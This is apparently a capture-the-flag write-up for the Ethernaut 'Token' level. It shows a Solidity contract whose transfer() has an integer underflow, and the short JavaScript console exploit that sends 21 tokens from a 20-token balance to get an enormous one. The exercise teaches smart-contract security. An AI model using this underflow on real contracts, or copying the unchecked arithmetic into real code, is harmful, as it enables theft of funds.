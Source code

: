 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel5.svg">

## Review Target Contract

Given contract.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
Challenge's message.

> The goal of this level is for you to hack the basic token contract below.
You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Check our balance.

```js
await contract.balanceOf('0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b')
o {negative: 0, words: Array(2), length: 1, red: null}
length
: 
1
negative
: 
0
red
: 
null
words
: 
(2) [20, boş]
[[Prototype]]
: 
Object
```

There is simple contract which does transfer some values to receiver balance's. If we look carefully, we can easily find the ```integer underflow vulnerability``` which is in the ```transfer()``` function. To explain more technicality, if we enter value that is more than integer variable's limit, variable will be underflow. In other words, msg.sender's balance will be like this;

```solidity

balances[msg.sender] -= _value;
// 20 -= 21;
// balances[msg.sender] = 1.1579209e+77;
```
More about [overflow and underflow vulnerability in solidity.](https://hackernoon.com/hack-solidity-integer-overflow-and-underflow)

## Subverting

The only thing that will solve this challenge is to send value to an address greater than 20 to the **_value** variable and transfer an address which is not ours.

```js
await contract.transfer( "0x1824d95Fc8b6fFF19867D09654bCF1369AeD4C21", 20 + 1)
```

```js
await contract.balanceOf('0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b')
o {negative: 0, words: Array(11), length: 10, red: null}length: 10negative: 0red: nullwords: (11) [67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 4194303, boş][[Prototype]]: Object
```

**_by wasny0ps_**
